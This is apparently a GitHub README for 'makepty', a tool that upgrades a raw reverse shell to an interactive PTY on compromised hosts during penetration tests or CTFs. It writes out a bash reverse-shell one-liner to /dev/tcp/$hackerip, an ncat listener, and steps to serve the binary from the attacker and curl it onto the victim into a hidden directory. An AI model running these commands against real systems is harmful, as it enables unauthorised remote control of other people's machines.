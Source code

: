 # makepty
Create a PTY linked to stdin and stdout


This tool creates a pseudo-TTY which takes input from standard input and prints to standard output.
I made it as another potential option for building a PTY on a raw (netcat) shell during a penetration test or CTF.
It is similar to `python3 -c 'import pty;pty.spawn("/bin/bash")'` but also works on platforms that lack Python3.

I was inspired to create it after I took over a FreeBSD box and found that it didn't have python and my pyinstaller version only worked on Linux.

## Why

When taking over a target computer, pentesters will generally use a reverse shell with methods such as `bash -c 'bash -i >& /dev/tcp/$hackerip/9443 0>&1'`

This initial shell will have no PTY, thus allowing only non-interactive commands to be run.
A hacker generally needs to upgrade to a PTY to be able to easily run commands such as `sudo` or `vi` remotely.
`makepty` is a simple binary that will upgrade a raw shell to a TTY shell.

## Usage

On attacker system, start a listener via for example: `ncat -lvp 9443`
On victim, get a reverse shell through for example `bash -c 'bash -i >& /dev/tcp/$hackerip/9443 0>&1'`

Now you will have a raw shell on your ncat listener. To upgrade, put makepty on the target system and run it. Example:
On attacker, make a directory and move makepty for target system to it, then run a web server:
```sh
mkdir /tmp/web
cp ~/tools/makepty-freebsd /tmp/web/
cd /tmp/web
python3 -m http.server 8082
```
On victim, download it and run it:
```sh
mkdir /tmp/.w
cd /tmp/.w
curl http://$hackerip:8082/makepty-freebsd > makepty # or `ftp http://$hackerip:8082/makepty-freebsd` as `ftp` on BSD is a non-interactive curl-like command
chmod +x makepty
./makepty bash # or any other shell install on the system. Defaults to `sh`
```

You will now have a PTY shell, as can be tested with `stty -a`.

To further improve your experience, set your own shell to raw mode so you can use interactive commands such as `vi`, and use ctrl+c, shell completion, etc. on the victim.

On attacker shell:
```sh
# First run ctrl+Z to background the reverse shell, then
stty size # get your TTY size, example 55 212 is rows 55, columns 212
stty raw -echo && fg # set your TTY to raw mode and then foreground the shell
# Now you're in the victim shell again
stty rows 55 columns 212 # send TTY size info to PTY on victim
# You can now run commands such as `vi` in fullscreen on your reverse shell
```

### usage example

[![asciicast](https://asciinema.org/a/7NHg67zFhsfZQnU17rY0J9Rtj.svg)](https://asciinema.org/a/7NHg67zFhsfZQnU17rY0J9Rtj)

## License

MIT license (see [LICENSE-MIT](LICENSE-MIT) file)
